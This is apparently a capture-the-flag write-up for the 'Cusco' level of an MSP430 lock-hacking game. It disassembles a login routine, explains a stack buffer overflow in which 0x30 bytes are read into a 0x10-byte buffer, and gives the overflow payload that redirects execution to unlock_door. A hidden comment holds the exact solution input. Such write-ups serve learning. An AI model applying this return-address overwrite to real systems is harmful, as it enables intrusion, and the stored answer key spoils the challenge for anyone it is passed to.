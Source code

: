 # Cusco
> partial source code is [here](./dump.asm)  
> **Vulnerability**: stack buffer overflow

## Analysis
Focus on the function `<login>`
```asm
4500 <login>
4500:  3150 f0ff      add	#0xfff0, sp                     ; sp = sp - 0x10
4504:  3f40 7c44      mov	#0x447c "Enter the password to continue.", r15
4508:  b012 a645      call	#0x45a6 <puts>
450c:  3f40 9c44      mov	#0x449c "Remember: passwords are between 8 and 16 characters.", r15
4510:  b012 a645      call	#0x45a6 <puts>
4514:  3e40 3000      mov	#0x30, r14
4518:  0f41           mov	sp, r15
451a:  b012 9645      call	#0x4596 <getsn>                 ; gets(sp, 0x30)
451e:  0f41           mov	sp, r15
4520:  b012 5244      call	#0x4452 <test_password_valid>
4524:  0f93           tst	r15
4526:  0524           jz	$+0xc <login+0x32>
4528:  b012 4644      call	#0x4446 <unlock_door>
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
4530:  023c           jmp	$+0x6 <login+0x36>
4532:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
4536:  b012 a645      call	#0x45a6 <puts>
453a:  3150 1000      add	#0x10, sp
453e:  3041           ret
```

From `4500:  3150 f0ff      add	#0xfff0, sp`, we know that the stack size is `0x10` bytes and at `451a`, it calls `gets(sp, 0x30)` which gets **maximum 0x30 bytes** of input on the stack.

### Vulnerability
**<u>0x30 > 0x10</u>** so there is a **stack buffer overflow** and `input[0x10]` will hold the return address of the function `<login>`.

## Exploit
0x10 bytes of padding + 0x2 bytes of address for `<unlock_door>` function, `0x4446` in little endian

<!-- solution: {'level_id': 5, 'input': '414141414141414141414141414141414644;'} -->
